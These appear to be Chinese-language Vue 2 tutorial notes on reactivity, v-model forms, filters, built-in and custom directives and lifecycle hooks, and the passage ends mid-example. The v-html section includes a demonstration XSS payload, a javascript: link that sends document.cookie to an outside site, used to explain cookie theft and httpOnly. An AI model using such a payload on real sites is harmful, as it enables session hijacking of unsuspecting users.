

#### Vue的数据监视解决

因为Vue中的监测特性，所以在原来的操作中，`this.persons[0] = {id: '001', name: '马老师', age: 50,sex:'男'};`是直接对数据元素的操作，而Vue实例是不监测这些的。得使用**被Vue实例包装**的7个方法才能触发，才能使得容器更新。


* push:向数组的末尾添加一个或更多元素，并返回新的长度
* pop:删除数组的最后一个元素并返回删除的元素
* shift: 删除并返回数组的第一个元素
* unshift:向数组的开头添加一个或更多元素，并返回新的长度
* splice:从数组中添加或删除元素
* sort: 对数组的元素进行排序
* reverse: 反转数组的元素顺序

之前的替换方法的正确写法：


测试效果：


#### 总结案例


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>总结Vue数据监测</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>学生信息</h1>

  <button @click="student.age++">年龄+1岁</button>
  <button @click="addSex">添加性别属性，默认值：男</button>
  <button @click="student.sex = '未知'">修改性别属性，默认值：未知</button>
  <button @click="addFriend">在列表首位添加一个朋友</button>
  <button @click="updateFirst">修改第一个朋友的名字为：张三</button>
  <button @click="student.hobby.push('开鬼火')">添加一个爱好</button>
  <button @click="updateFirstHobby">修改第一个爱好为：开车</button>
  <button @click="filterHobby">过滤爱好听音乐</button>

  <h3>学生姓名：{{student.name}}</h3>
  <h3>学生年龄：{{student.age}}</h3>
  <h3 v-if="student.sex">学生性别：{{student.sex}}</h3>
  <h3>爱好</h3>
  <ul>
    <li v-for="(h,index) of student.hobby">
      {{h}}
    </li>
  </ul>
  <h3>朋友们：</h3>
  <ul>
    <li v-for="(f,index) of student.friends">
      {{f.name}}-{{f.age}}
    </li>
  </ul>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip = false

  const vm = new Vue({
    el: '#root',
    data: {
      student:{
        name:'zhuzhe',
        age:26,
        hobby: ['看书','听音乐','打游戏'],
        friends:[
          {name:'cxr',age:26},
          {name:'cxk',age:22}
        ]
      }
    },
    methods:{
      addSex(){
        //Vue.set(this.student,'sex','男')
        this.$set(this.student,'sex','男')
      },
      addFriend(){
        this.student.friends.unshift({name:'李四',age:99})
      },
      updateFirst(){
        this.student.friends[0].name = '张三'
      },
      updateFirstHobby(){
        //this.student.hobby.splice(0,1,'开车')
        this.$set(this.student.hobby,0,'开车')
      },
      filterHobby(){
       this.student.hobby = this.student.hobby.filter((h)=>{
         return h!='听音乐'
       })
      }
    }
  })
</script>
</body>
</html>
```


### 案例：收集表单数据


v-model:value='xxx' 等于 v-model='xxx'

单选框使用v-model需要注意先赋予初始值，否则获取不到。

复选框使用v-model需要注意先赋初始值，否则获取到是checked属性，并且接收属性的初始类型会影响v-model收集数据的类型，需要初始化为空数组

v-model提供了很多在表单场景下的常用功能修饰符

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>收集表单数据</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <form @submit.prevent="demo"><!--表单只要已提交，我就调用这个方法，并阻止默认行为-->
    <label for="account">账号：</label><input type="text" id="account" v-model:value.trim="userInfo.account"><br><br><!--.trim会将输入的空格去除-->
    <label for="password">密码：</label><input type="password" id="password" v-model="userInfo.password"><br><br>
    <label>年龄：</label><input type="number" v-model.number="userInfo.age"><br><br><!--.number指定数据格式为数值-->
    <label>性别：</label>
    男<input type="radio" name="sex" value="male" v-model:value="userInfo.sex">
    女<input type="radio" name="sex" value="female" v-model:value="userInfo.sex"><br><br>
    爱好：
    学习：<input type="checkbox" value="study" v-model="userInfo.hobby">
    打游戏：<input type="checkbox" value="game" v-model="userInfo.hobby">
    吃饭：<input type="checkbox" value="eat" v-model="userInfo.hobby"><br><br>
    所属校区：
    <select v-model="userInfo.city">
      <option value="">请选择校区</option>
      <option value="beijing">北京</option>
      <option value="shanghai">上海</option>
      <option value="guangzhou">广州</option>
      <option value="shantou">汕头</option>
    </select><br><br>
    其他信息：<br><br>
    <textarea v-model.lazy="userInfo.other"></textarea><br><br><!--.lazy像这个大文本，并不用实时收集，等输入完(失去焦点)再去收集-->
    <input type="checkbox" v-model="userInfo.agree">阅读并接收<a href="https://www.baidu.com">《用户协议》</a><br><br>
    <button @click="">提交</button>
  </form>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  const vm = new Vue({
    el:'#root',
    data:{
      userInfo:{
        account:'',
        password:'',
        age:'',
        sex:'female',
        hobby:[],
        city:'beijing',
        other:'',
        agree:''
      }
    },
    methods:{
      demo(){
        //console.log(JSON.stringify(this._data))
        console.log(JSON.stringify(this.userInfo))
      }
    }
  })
</script>
</body>
</html>
```


### 过滤器

#### 日期格式处理案例：

使用第三方类库：dayjs https://www.bootcdn.cn/dayjs/

类库文档：https://github.com/iamkun/dayjs

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>过滤器</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
  <script type="application/javascript" src="../js/dayjs.min.js"></script>
</head>
<body>
<div id="root">
  <h2>显示格式化后的时间</h2>
  <!--计算属性实现-->
  <h3>现在是{{fmtTime}}</h3>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  const vm = new Vue({
    el:'#root',
    data:{
      time:Date.now()
    },
    computed:{
      fmtTime(){
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
      }
    }
  })
</script>
</body>
</html>
```


Vue提供了一个过滤器功能，目的是为前面传递的data实例属性进行过滤处理后重新返回。即我可以对展示的数据进行过滤处理。

* 过滤器使用方式上用管道符`|`并且默认将前面的数据对象作为参数传递到后面的过滤器方法中。
* 过滤器也可以自定义参数，但记得第一位是被过滤对象，往后才是自定义参数
* 过滤器可以串联，将前一个过滤器的返回值用作下一个过滤器的传参，最终展示是最后一个过滤器的处理结果
* 定义在filters中的过滤器是作用范围是当前Vue实例，不能跨实例调用。需要在Vue.filter()中定义跨实例的过滤器。
* 过滤器也可以在数据绑定v-bind中使用
* 过滤器适用于解决一些展示小问题场景，比如电商中做价格展示

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>过滤器</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
  <script type="application/javascript" src="../js/dayjs.min.js"></script>
</head>
<body>
<!--容器1-->
<div id="root">
  <h2>显示格式化后的时间</h2>
  <!--计算属性实现-->
  <h3>现在是{{fmtTime}}</h3>
  <!--methods实现-->
  <h3>现在是：{{getFmtTime()}}</h3>
  <!--过滤器实现-->
  <h3>现在是：{{time | timeFormater('YYYY年MM月DD日')}}</h3><!--使用管道符定义一个过滤器-->
  <!--串联过滤器-->
  <h3>现在是：{{time | timeFormater('YYYY年MM月DD日') | timeSlice}}</h3><!--使用管道符定义一个过滤器-->
</div>

<!--容器2-->
<div id="root2">
  <!--全局过滤器-->
  <h3>现在的年份是：{{time|timeFormater('YYYY年MM月DD日')|timeSlice2}}</h3><!--调用自己实例的过滤器和调用全局过滤器-->
  <!--在数据绑定中使用过滤器-->
  <h3 :x="msg|timeSlice2">zhuzhe</h3>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  //定义全局过滤器，在new Vue之前
  Vue.filter('timeSlice2',function (value) {
    return value.slice(0,4);
  })

  const vm = new Vue({
    el:'#root',
    data:{
      time:Date.now()
    },
    computed:{
      fmtTime(){
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
      }
    },
    methods:{
      getFmtTime(){
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss');
      }
    },
    filters:{
      /**
       * 过滤器：时间格式转换
       * @param value 默认传递被过滤对象
       * @param formatStr 手动传递时间格式字符串
       * @returns {*} 返回格式化后的时间
       */
      timeFormater:function (value,formatStr){
        console.log("value:"+value);
        return dayjs(value).format(formatStr);
      },
      /**
       * 过滤器：时间截取年份
       * @param value 要过滤的对象
       * @returns {*} 将对象字符串切割前5位返回
       */
      timeSlice(value){
        return value.slice(0,5);
      }
    }
  });

  const vm2 = new Vue({
    el:'#root2',
    data:{
      time:Date.now(),
      msg:'您好，zhuzhe'
    },
    filters: {
      timeFormater:function (value,formatStr){
        console.log("value:"+value);
        return dayjs(value).format(formatStr);
      }
    }
  })
</script>
</body>
</html>
```


### 内置指令

前面讲过的指令：


#### v-text

给使用的标签将其内容替换为数据属性

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-text指令</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>插值语法：{{name}}</div><!--标签内插元素灵活-->
    <div>{{str}}</div><!--标签内插元素灵活-->
    <div v-text="name"></div><!--直接覆盖标签内全部内容-->
    <div v-text="str"></div><!--直接覆盖标签内全部内容-->
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: 'zhuzhe',
            str : '<h3>hello</h3>'
        }
    })
</script>
</body>
</html>
```

#### v-html

和v-text一样，不过具有识别html语法并执行的功能。不过v-html会有安全问题。

* 上面是第一次请求，访问github时需要登录，登录完成后保存cookie到浏览器里
* 下面是第二次请求，访问github时需要携带cookie来验证已登录用户，浏览器根据同源策略只携带之前给予cookie的相同域名网站。请求后服务器返回一个新cookie、


* 服务器给浏览器的cookie有限制，正常chrome的cookie不能在firefox中访问到。


* 如果手动复制cookie到另外的浏览器，是可以伪造用户登录的，因为cookie是验证用户的标识
* 在使用v-html过程中，如果Vue实例遭到攻击，是可以伪造网页字符串，插入到我们的正常网页中，并诱导用户点击窃取cookie
* 服务器在返回cookie时，需要指定httpOnly，表明该cookie只有在http请求中才能使用，这样就能避免js获取cookie。


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-html指令</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>插值语法：{{name}}</div>
    <div v-html="name"></div>
    <div v-html="str"></div>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '<h3>您好，zhuzhe</h3>',
            str:'<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>点击下载</a>'
        }
    })
</script>
</body>
</html>
```


这里一个主要是说明使用v-html会有安全问题。比如消息通知，将用户留言作为网页插入到你的留言表，你看到后点击恶意链接会导致cookie被盗。

#### v-cloak

假设vuejs引入位置是在body的最底部，那在vuejs加载缓慢时，就会有先加载容器，直接展示容器未处理的内容，再加载vuejs，最后加载vue实例接管容器，设置容器内容。

那么原生容器空模板信息展示一段时间（vuejs加载的时间），之后突然刷新正常展示内容。这对于用户体验不好。

问题代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-clock指令</title>
</head>
<body>
<div id="root">
    <div>插值语法：{{name}}</div>
    <!--引入Vue，假设这个Vuejs加载缓慢-->
    <script type="application/javascript" src="../js/vue.js"></script>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: 'zhuzhe'
        }
    })
</script>
</body>
</html>
```



此时可以通过v-cloak来处理，v-clock的特性是可以加在标签上，当Vue实例初始化完成后，就会去除这个指令。所以可以在Vue实例还没有加载前，利用v-cloak指令来给标签设置隐藏css样式，在Vue实例加载完毕后，将v-cloak属性去除，则标签显示。


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-clock指令</title>
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
<div id="root">
    <div v-cloak>插值语法：{{name}}</div>
    <!--引入Vue，假设这个Vuejs加载缓慢-->
    <script type="application/javascript" src="../js/vue.js"></script>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: 'zhuzhe'
        }
    })
</script>
</body>
</html>
```

#### v-once

比如一些场景下会不断变换属性内容，但又需要一份最初的内容，则可以使用v-once


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-once指令</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <div v-cloak>hello, {{name}}</div>
    <h2 v-once>初始化的n值是：{{n}}</h2><!--记住值的初始信息-->
    <h2>当前的n值是：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: 'zhuzhe',
            n:1
        }
    })
</script>
</body>
</html>
```


#### v-pre


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-pre指令</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <div v-pre>您好！...</div>
    <div v-pre v-cloak>hello, {{name}}</div>
    <h3 v-pre>当前的n值：{{n}}</h3>
    <button @click="n++">点我+1</button>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: 'zhuzhe',
            n:1
        }
    })
</script>
</body>
</html>
```


### 自定义指令

Vue中提供了很多内嵌指令，也支持自定义指令。


#### 自定义：v-big，模板展示数值放大10倍

v-???的指令在Vue容器中，识别为???的函数。函数在以下2种情况会进行调用：

1. 指令与元素（标签）成功绑定时触发函数
2. 指令所在模板被重新解析时触发函数

自定义v-big指令，对于big函数，定义在directives中，函数可以接收两个参数：

1. 当前的DOM元素
2. 数据对象data和元素（标签）之间的绑定关系（关系对象）

由这两个对象就可以实现Vue中的指令功能：将元素（标签）展示的内容放大10倍

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>自定义指令</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<!--
1. 需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍
2. 需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点
-->
<div id="root">
  <h2>当前的n值是：<span v-text="n"></span></h2>
  <h2>放大10倍后的n值是：<span v-big="n"></span></h2>
  <button @click="n++">点我+1</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      n:1
    },
    directives:{//自定义指令
      //将展示的值进行放大，不影响原来在data中的值（big函数在指令与元素成功绑定时触发，指令所在的模板被重新解析时会被调用）
      big:function (element,binding) {
        console.log('v-big init')
        console.log('v-big HTMLElement(DOM)=',element)/*第一个元素是dom元素*/
        console.log('v-big binding=',binding)/*第二个是表达容器标签和数据对象之间的绑定关系对象*/
        /*编写指令功能*/
        element.innerText = binding.value * 10;
      }
    }
  })
</script>
</body>
</html>
```


#### 自定义：v-fbind，在v-bind基础加上自动获取input元素焦点

先学习下在原生JS中，创建一个input元素，并给其添加各种样式。会发现在input元素被实际的创建时，有些样式可以在被创建前就使用，有些样式必须等到元素被实际创建出来才能使用。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document原生JS编写新增输入框功能</title>
    <style>
      .demo{
        background-color: orange;
      }
    </style>
</head>
<body>
  <button id="btn">点我创建一个输入框</button>
  <script type="application/javascript">
    const btn = document.getElementById('btn');
    btn.onclick = ()=>{
      const input = document.createElement('input');
      //设置input的基本属性，这些可以放在input被实际创建之前
      input.className = 'demo';
      input.value = '99'
      input.onclick = ()=>{
        alert(input.value);
      }
      document.body.appendChild(input);//往body创建input元素

      input.focus();//让input框获取到焦点，只能在input框实际创建之后才能使用
      input.parentElement.style.backgroundColor = 'skyblue'//让父元素背景颜色更改，只能在input框实际创建之后才能使用
    }
  </script>
</body>
</html>
```

前面也有提到，Vue自定义指令会有两个调用阶段，在 "指令与元素成功绑定时调用" 这一个阶段，模板正在被Vue实例编译，其中input元素还没有被实际创建，这个时候无法设置焦点。


上面那些是因为使用了函数格式来定义指令才会出现这种情况，可以使用对象结构方式来定义指令，对象结构提供了很多控制时间点的配置。


利用指令函数对象结构，提供了三个在不同行为小默认调用方法，来实现输入框获取焦点，点击更新元素仍然获取焦点。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>自定义指令</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<!--
1. 需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍
2. 需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点
-->
<div id="root">
  <h2>当前的n值是：<span v-text="n"></span></h2>
  <h2>放大10倍后的n值是：<span v-big-number="n"></span></h2>
  <button @click="n++">点我+1</button>
  <hr>
  <input type="text" v-bind:value="n"><br>
  <input type="text" v-fbind:value="n">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      n:1
    },
    directives:{//自定义指令
      //将展示的值进行放大，不影响原来在data中的值（big函数在指令与元素成功绑定时触发，指令所在的模板被重新解析时会被调用）
      'big-number':function (element,binding) {
        console.log('v-big init')
        console.log('this:',this)//注意，此处的this是window
        console.log('v-big HTMLElement(DOM)=',element)/*第一个元素是dom元素*/
        console.log('v-big binding=',binding)/*第二个是表达容器标签和数据对象之间的绑定关系对象*/
        /*编写指令功能*/
        element.innerText = binding.value * 10;
      },
      fbind:{
        bind(element,binding){//当指令与元素成功绑定时调用
          console.log("bind")
          element.value = binding.value;//给input绑定数据对象
        },
        inserted(element,binding){//指令所在元素被插入页面时调用
          console.log("inserted")
          element.focus();//给input获取焦点
        },
        update(element,binding){//指令所在模板被重新解析时调用
          console.log("update")
          //数据对象关系时，关系模板并获取焦点
          element.value = binding.value;
          element.focus();
        }
      }
    }
  })
</script>
</body>
</html>
```


从两种写法中可以看到，对象写法中bind()和update()【第1和第3个函数】函数两个的执行行为是一致的，这也就是在函数模式时，该函数的调用时间点。

当遇到需要元素被完成创建后的操作时，就使用对象结构。否则正常就使用函数结构。

注：所有指令所使用的函数，调用者是Window.


定义在directives中的指令是局部的。


可以通过全局配置来扩大作用范围。


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>自定义指令</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<!--
1. 需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍
2. 需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点
-->
<div id="root">
  <h2>当前的n值是：<span v-text="n"></span></h2>
  <h2>放大10倍后的n值是：<span v-big-number="n"></span></h2>
  <button @click="n++">点我+1</button>
  <hr>
  <input type="text" v-bind:value="n"><br>
  <input type="text" v-fbind:value="n">
</div>

<hr>
<div id="root2">
  <input type="text" v-fbind2:value="x">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  Vue.directive('fbind2',{
    bind(element,binding){//当指令与元素成功绑定时调用
      console.log("bind")
      element.value = binding.value;//给input绑定数据对象
    },
    inserted(element,binding){//指令所在元素被插入页面时调用
      console.log("inserted")
      element.focus();//给input获取焦点
    },
    update(element,binding){//指令所在模板被重新解析时调用
      console.log("update")
      //数据对象关系时，关系模板并获取焦点
      element.value = binding.value;
      element.focus();
    }
  })

  new Vue({
    el:'#root',
    data:{
      n:1
    },
    directives:{//自定义指令
      //将展示的值进行放大，不影响原来在data中的值（big函数在指令与元素成功绑定时触发，指令所在的模板被重新解析时会被调用）
      'big-number':function (element,binding) {
        console.log('v-big init')
        console.log('this:',this)//注意，此处的this是window
        console.log('v-big HTMLElement(DOM)=',element)/*第一个元素是dom元素*/
        console.log('v-big binding=',binding)/*第二个是表达容器标签和数据对象之间的绑定关系对象*/
        /*编写指令功能*/
        element.innerText = binding.value * 10;
      },
      fbind:{
        bind(element,binding){//当指令与元素成功绑定时调用
          console.log("bind")
          element.value = binding.value;//给input绑定数据对象
        },
        inserted(element,binding){//指令所在元素被插入页面时调用
          console.log("inserted")
          element.focus();//给input获取焦点
        },
        update(element,binding){//指令所在模板被重新解析时调用
          console.log("update")
          //数据对象关系时，关系模板并获取焦点
          element.value = binding.value;
          element.focus();
        }
      }
    }
  })

  new Vue({
    el:'#root2',
    data:{
      x:1
    }
  })
</script>
</body>
</html>
```




### Vue生命周期

Vue实例在创建过程会调用几个函数，称为生命周期函数。


#### 案例1：文字渐变动画

实现在初次进入到页面时，展示一个逐渐变淡的效果的文字，当透明度到0时，就重置为1。可以由不同外部定时器完成，也可以使用Vue的生命周期函数来调用（为了遵循Vue开发数据的准备工作都在Vue里面进行）；

```html
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <title>引出生命周期</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2 v-if="a">hello</h2>
    <h2 :style="{opacity}">欢迎学习Vue</h2><!--样式名和属性名重名，省略掉-->
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    const vm = new Vue({
        el:'#root',
        data:{
            opacity:1,
            a:false
        },
        //Vue完成模板解析，并把真实的DOM元素放入页面后（挂载完毕）调用mounted
        mounted(){//挂载 Vue管理容器->找到模板:style="{opacity}"->解析到虚拟DOM->转换为真实DOM->将真实元素挂载到页面->
            console.log('mounted:只会调用一次，第一次把东西放入页面，以后的操作就不算挂载，是更新')
            setInterval(()=>{
                this.opacity-=0.01;
                if (this.opacity <= 0){
                    this.opacity = 1;
                }
            },16)
        }
    })

    /*通过外部定时器实现*/
    /*setInterval(()=>{
        vm.opacity-=0.01;
        if (vm.opacity <= 0){
            vm.opacity = 1;
        }
    },16)*/
</script>
</body>
</html>
```


#### 案例2：求n值


在上面的生命周期中，有几个阶段需要解释下：

1. el指定：是说在Vue实例初始化时，不指定el，而是通过一个语句来调用。

   

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
     <meta charset="UTF-8">
     <title>分析生命周期</title>
     <!--引入Vue-->
     <script type="application/javascript" src="../js/vue.js"></script>
   </head>
   <body>
   <div id="root">
     <h2>当前的n值是：{{n}}</h2>
     <button @click="add">点我+1</button>
   </div>
   
   <script type="application/javascript">
     // 阻止vue在启动时生成生产环境提示
     Vue.config.productionTip= false
   
     const vm = new Vue({
       //el:'#root',
       data:{
         n:1
       },
       methods:{
         'add':function (){
           this.n++;
         }
       },
       beforeCreate(){//创建空Vue实例，内容未初始化
         console.log("beforeCreate...vm=",this);
         //debugger;//指定断定，已知前面的代码会有报错，则设置断点使其执行停止
       },
       created(){//data和methods完成初始化
         console.log('created...vm=',this);
       },
       beforeMount(){//挂载前
         console.log('beforeMount...vm=',this);
       },
       mounted(){//完成挂载
         console.log('mounted...vm=',this);
       }
     })
   </script>
   </body>
   </html>
   ```

   

   语句：`vm.$mount('#root')`

   

2. Vue实例初始化时指定template模板

   

   我们容器里编写的标签元素就是模板，这里是指不再容器中编写元素，而是在Vue实例中通过指定template模板方式，传入元素字符串，Vue实例会拿去解析并最终插回去容器里。

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
     <meta charset="UTF-8">
     <title>分析生命周期</title>
     <!--引入Vue-->
     <script type="application/javascript" src="../js/vue.js"></script>
   </head>
   <body>
   <div id="root">
     <!--<h2>当前的n值是：{{n}}</h2>
     <button @click="add">点我+1</button>-->
   </div>
   
   <script type="application/javascript">
     // 阻止vue在启动时生成生产环境提示
     Vue.config.productionTip= false
   
     new Vue({
       el:'#root',
       template:`
         <div>
           <h2>当前的n值是：{{n}}</h2>
           <button @click="add">点我+1</button>
         </div>`,
       data:{
         n:1
       },
       methods:{
         'add':function (){
           this.n++;
         }
       },
       beforeCreate(){//创建空Vue实例，内容未初始化
         console.log("beforeCreate...vm=",this);
         //debugger;//指定断定，已知前面的代码会有报错，则设置断点使其执行停止
       },
       created(){//data和methods完成初始化
         console.log('created...vm=',this);
       },
       beforeMount(){//挂载前
         console.log('beforeMount...vm=',this);
       },
       mounted(){//完成挂载
         console.log('mounted...vm=',this);
       }
     })
   </script>
   </body>
   </html>
   ```

   最终展示就是原来定义的容器被替换了，这里没有看到id='root'

   

3. Vue实例销毁

   

   

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
     <meta charset="UTF-8">
     <title>分析生命周期</title>
     <!--引入Vue-->
     <script type="application/javascript" src="../js/vue.js"></script>
   </head>
   <body>
   <div id="root">
     <h2>当前的n值是：{{n}}</h2>
     <button @click="add">点我+1</button>
     <button @click="bye">点我销毁Vue实例</button>
   </div>
   
   <script type="application/javascript">
     // 阻止vue在启动时生成生产环境提示
     Vue.config.productionTip= false
   
     new Vue({
       el:'#root',
       // template:`
       //   <div>
       //     <h2>当前的n值是：{{n}}</h2>
       //     <button @click="add">点我+1</button>
       //   </div>`,
       data:{
         n:1
       },
       methods:{
         'add':function (){
           console.log('add');
           this.n++;
         },
         bye(){
           console.log("bye：将Vue实例销毁")
           this.$destroy();
         }
       },
       beforeCreate(){//创建空Vue实例，内容未初始化
         console.log("beforeCreate...vm=",this);
         //debugger;//指定断定，已知前面的代码会有报错，则设置断点使其执行停止
       },
       created(){//data和methods完成初始化
         console.log('created...vm=',this);
       },
       beforeMount(){//在挂载前
         console.log('beforeMount...vm=',this);
       },
       mounted(){//完成挂载时
